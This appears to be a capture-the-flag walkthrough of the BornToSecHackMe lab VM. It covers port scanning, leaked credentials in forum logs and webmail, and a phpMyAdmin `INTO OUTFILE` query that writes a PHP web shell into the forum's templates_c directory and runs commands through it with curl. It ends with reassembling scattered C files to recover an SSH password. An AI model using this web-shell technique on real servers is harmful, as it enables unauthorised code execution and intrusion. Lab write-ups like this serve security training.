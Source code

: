 first we will use nmap to get the ip of the VM, and scan it's open ports.

![nmap](./nmap.png)

we can see multiple ports open, including a http server. opening the web page we are greeted by a simple useless static html page. instead we will use a tool (dirsearch here) to find http path based on a wordlist.

![dirsearch](./dirsearch.png)

we see there is a forum, a webmail, and a phpmyadmin.

let's see the forum.

there is only 4 posts. the only interesting is `Probleme login ? - lmezard` where he posted the log of his failed login.

scrolling through the logs, we can see at a point he mistakenly entered his password in the username field, which is not hidden: ` Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2`

we can try to connect to the multiples services, but the only that work is on the forum itself as the user `lmezard` with the password `!q\]Ej?*5K5cy*AJ`.

now we can access the account private informations, including it's email `laurie@borntosec.net` that we can use to connect to the webmail.

we can see a mail saying

> Hey Laurie,
>
> You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
>
> Best regards.

well now we can connect to the phpmyadmin instance, it's very useful as we can use it to write sql query, and mysql is able to write to a file using `INTO OUTFILE` command.

trying to write a simple command launcher into the http server directory `SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/backdoor.php"` fails. we need to find a location where we have write access.

maybe with the forum ? looking at the forum source code (mylittleforum) there is multiples directory, trying multiples we find `templates_c` where we can write the file.

so now we just have to access it: `curl --insecure https://vm/forum/templates_c/backdoor.php?cmd=whoami` and we are www-data as expected.

trying to find something, we can `ls` the `/home` dir and get `LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz`

the only dir we can access is `LOOKATME`, where there a single `password` file with `lmezard:G!@M6f4Eatau{sF"` inside.

ssh don't work, but ftp does.

we can see two file, a readme with `Complete this little challenge and use the result as password for user 'laurie' to login in ssh` and a `fun` named file. using the `file` command we can see it's archive.

the archive is 750 .pcap files, but that are just text file and not packet captures.
each file seems to contain C code. a file contain the main function:

```c
int main() {
        printf("M");
        printf("Y");
        printf(" ");
        printf("P");
        printf("A");
        printf("S");
        printf("S");
        printf("W");
        printf("O");
        printf("R");
        printf("D");
        printf(" ");
        printf("I");
        printf("S");
        printf(":");
        printf(" ");
        printf("%c",getme1());
        printf("%c",getme2());
        printf("%c",getme3());
        printf("%c",getme4());
        printf("%c",getme5());
        printf("%c",getme6());
        printf("%c",getme7());
        printf("%c",getme8());
        printf("%c",getme9());
        printf("%c",getme10());
        printf("%c",getme11());
        printf("%c",getme12());
        printf("\n");
        printf("Now SHA-256 it and submit");
}
```

and some other files contain part of the getmeX function that return a char.
and most importantly, each file contain a comment like this `//file254` which probably indicate the order of the file.

to reconstruct the code we can write a simple script: `for i in {1..750}; do echo | cat $(rg -l "file$i$") - >> main.c; done`
then `cc main.c` and `./a.out`: `MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit`
so `echo -n Iheartpwnage | sha256sum`: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`
which allow us to ssh into the laurie user.
